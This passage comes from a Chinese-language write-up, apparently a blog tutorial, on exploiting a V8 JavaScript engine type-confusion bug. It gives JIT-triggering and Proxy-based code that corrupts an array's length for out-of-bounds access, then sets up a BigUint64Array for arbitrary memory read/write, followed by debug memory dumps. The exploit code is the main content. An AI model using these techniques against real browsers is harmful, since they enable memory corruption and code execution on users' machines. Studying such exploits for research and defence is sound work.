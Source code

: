 ```
});

function main(p) {
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
    f(p);
}

function confusion_to_oob() {
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT

    main(empty);
    main(empty);

    main(p);
    console.log("oob_array.length: " + hex(oob_array.length));
}

confusion_to_oob();


```

打印`oob_array`的`length`来查看修改是否成功，发现长度顺利被修改为`c00c`。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114174653-6e8f0864-564d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210114174653-6e8f0864-564d-1.png)

任意地址读写
------

稍微回想一下我们的`BigUint64Array`对象，只要我们控制了`external_pointer&&base_pointer`的值，就可以实现任意地址读写了。现在已经有了任意索引越界读写的能力，只要将`BigUint64Array`对象布置到`oob_array`数组之后，就可以随意修改`external_pointer&&base_pointer`了。还是先从`Proxy`里面做文章：

```
let p = new Proxy(Object, {
    get: () => {
        vuln_array[0] = {}; // 修改之后的类型是HOLEY_ELEMENTS
        oob_array = [1.1];  // 修改此数组的length来达到oob
        uint64_arw = new BigUint64Array(2); // 实现任意地址读写
        %DebugPrint(oob_array);
        %DebugPrint(uint64_arw);
        %SystemBreak();
        return Object.prototype;
    }
});


```

`uint64_arw`会被放置到`oob_array`之后，内存布局如下：

```
DebugPrint: 0000017608086329: [JSArray]
 - map: 0x017608241891 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x017608208dcd <JSArray[0]>
 - elements: 0x017608086319 <FixedDoubleArray[1]> [PACKED_DOUBLE_ELEMENTS]
 - length: 1
 - properties: 0x0176080406e9 <FixedArray[0]> {
    #length: 0x017608180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x017608086319 <FixedDoubleArray[1]> {
           0: 1.1
 }
0000017608241891: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
```